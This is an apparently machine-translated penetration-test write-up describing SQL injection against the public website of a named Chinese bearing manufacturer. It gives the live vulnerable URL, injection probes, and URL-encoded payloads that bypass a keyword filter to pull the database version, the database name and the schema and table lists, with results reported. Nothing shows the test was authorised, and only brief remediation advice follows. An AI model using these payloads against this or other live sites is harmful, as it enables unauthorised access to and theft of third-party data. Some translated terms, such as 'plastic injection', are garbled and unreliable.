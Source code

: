 Penetration time: March 28th, 2023<br />Target: Zhejiang Jingjiu Bearing Industry Co., Ltd<br />Infiltration assets: [http://jjbearings.com/userabout.php?id=1](http://jjbearings.com/userabout.php?id=1)<br />Penetration tools: IE browser, Google browser<br />Vulnerability: SQL injection

<a name="a4FRS"></a>
## 1. Vulnerability discovery stage
Found triable parameters? id=1<br />![](https://cdn.nlark.com/yuque/0/2023/png/26811445/1679987843653-589fda3f-2006-48b7-9f03-d13b932a35f4.png?x-oss-process=image%2Fresize%2Cw_1237%2Climit_0#from=url&id=wUUxR&originHeight=636&originWidth=1237&originalType=binary&ratio=1.6500000953674316&rotation=0&showTitle=false&status=done&style=none&title=)
<a name="xNGGB"></a>
## 2、Vulnerability verification stage
payload：<br />? Id=1 and 1=1 	# Returns correct<br />? Id=1 and 1=2 	# Error returned<br />Confirm that SQL injection exists and is a plastic injection<br />![](https://cdn.nlark.com/yuque/0/2023/png/26811445/1679987915371-48f3b8c8-4897-48ab-b62e-53c022c0d351.png?x-oss-process=image%2Fresize%2Cw_1237%2Climit_0#averageHue=%23ece8e6&from=url&id=pZClg&originHeight=639&originWidth=1237&originalType=binary&ratio=1.6500000953674316&rotation=0&showTitle=false&status=done&style=none&title=)<br />![image.png](https://cdn.nlark.com/yuque/0/2023/png/26811445/1679987992425-4120778e-140d-49eb-bb44-7058339f6663.png#averageHue=%23f5f1f0&clientId=u6e2e0921-0f28-4&from=paste&height=598&id=uf1a6d2ab&name=image.png&originHeight=987&originWidth=1920&originalType=binary&ratio=1.6500000953674316&rotation=0&showTitle=false&size=438953&status=done&style=none&taskId=ua1d4b1a5-2d1d-46d1-9104-4f8a4f9a8c4&title=&width=1163.636296379997)
<a name="M45DT"></a>
## 3. Further vulnerability verification stage
Guess the number of fields Payload:<br />? id=1 order by 2 	# Returns correct<br />? id=1 order by 3 	# Returns information that a field does not exist<br />Determine the number of database fields as 2<br />![](https://cdn.nlark.com/yuque/0/2023/png/26811445/1679988199231-b3ef528d-0a2d-428e-8c3c-f9115a323e2f.png?x-oss-process=image%2Fresize%2Cw_1237%2Climit_0#from=url&id=y64xZ&originHeight=633&originWidth=1237&originalType=binary&ratio=1.6500000953674316&rotation=0&showTitle=false&status=done&style=none&title=)<br />![](https://cdn.nlark.com/yuque/0/2023/png/26811445/1679988175984-06c24025-2598-48cf-b7d0-b674b7c66e7a.png#from=url&id=vh8Jv&originHeight=995&originWidth=1920&originalType=binary&ratio=1.6500000953674316&rotation=0&showTitle=false&status=done&style=none&title=)<br />After testing, it was found that union and select were filtered, and attempts to bypass case, double write, and% 00 truncation were not possible. The returned information was illegal access<br />![](https://cdn.nlark.com/yuque/0/2023/png/26811445/1679988291283-123cd2b2-a507-471a-b60d-b405565569d0.png#from=url&id=Q1rsB&originHeight=990&originWidth=1920&originalType=binary&ratio=1.6500000953674316&rotation=0&showTitle=false&status=done&style=none&title=)<br />Attempt to bypass using url encoding<br />payload:<br />?id=-1%55nion%53eLEct 1,2					#The echo field is2<br />?id=-1%55nion%53eLEct 1，%56erSion（）		#5.1.73<br />?id=-1%55nion%53eLEct 1，%44atAbase（）	#hdm386770643_db<br />![](https://cdn.nlark.com/yuque/0/2023/png/26811445/1679988703550-44d53118-b18e-4f4d-80fb-247a75511d71.png?x-oss-process=image%2Fresize%2Cw_1237%2Climit_0#averageHue=%23f6f1f1&from=url&id=xYmUw&originHeight=637&originWidth=1237&originalType=binary&ratio=1.6500000953674316&rotation=0&showTitle=false&status=done&style=none&title=)<br />![](https://cdn.nlark.com/yuque/0/2023/png/26811445/1679988612161-e774a5a8-6444-46ac-9ae7-80713f1dc40a.png?x-oss-process=image%2Fresize%2Cw_1237%2Climit_0#averageHue=%23f6f1f0&from=url&id=wmxew&originHeight=634&originWidth=1237&originalType=binary&ratio=1.6500000953674316&rotation=0&showTitle=false&status=done&style=none&title=)<br />![](https://cdn.nlark.com/yuque/0/2023/png/26811445/1679988635348-8a5bdcfa-0723-4c47-92dc-48c019863199.png?x-oss-process=image%2Fresize%2Cw_1237%2Climit_0#averageHue=%23f6f1f1&from=url&id=ITy8q&originHeight=633&originWidth=1237&originalType=binary&ratio=1.6500000953674316&rotation=0&showTitle=false&status=done&style=none&title=)<br />You can also query all the libraries of the current user<br />payload：<br />?id=-1  %55nion %53eLEct 1,(%53ELECT GROUP_CONCAT(schema_name) FROM information_schema.schemata)<br />![](https://cdn.nlark.com/yuque/0/2023/png/26811445/1679989051197-06181ee4-496f-493f-9339-757716451924.png?x-oss-process=image%2Fresize%2Cw_1237%2Climit_0#averageHue=%23f4f0f0&from=url&id=kRity&originHeight=643&originWidth=1237&originalType=binary&ratio=1.6500000953674316&rotation=0&showTitle=false&status=done&style=none&title=)<br />You can also query information_ All forms under the schema<br />payload：<br />?id=-1  %55nion %53eLEct 1,(%53ELECT GROUP_CONCAT(table_name) FROM information_schema.tables)<br />![](https://cdn.nlark.com/yuque/0/2023/png/26811445/1680056605747-1da11bdc-adbd-45eb-b014-6b38d4895e49.png?x-oss-process=image%2Fresize%2Cw_1237%2Climit_0#averageHue=%23f2eeed&from=url&id=dCrgj&originHeight=634&originWidth=1237&originalType=binary&ratio=1.6500000953674316&rotation=0&showTitle=false&status=done&style=none&title=)
<a name="EK1xe"></a>
## 4. Repair suggestions
1. Determining the type or length of a parameter can avoid abnormal implantation in parameters.<br />2. Strictly control database permissions, use a dedicated account and password for the dedicated database, and do not use an administrator account, such as the root account of MySQL, the sa account of SQL <br />3, and the sa account of server. Do not use them in applications. The previous post explained in detail the steps for adding a dedicated account and granting permissions to the SQL server database.<br />4. Avoid responding directly to some SQL exception information. After an SQL exception occurs, customize the exception to respond. At the same time, keep database operation logs to track and identify issues.
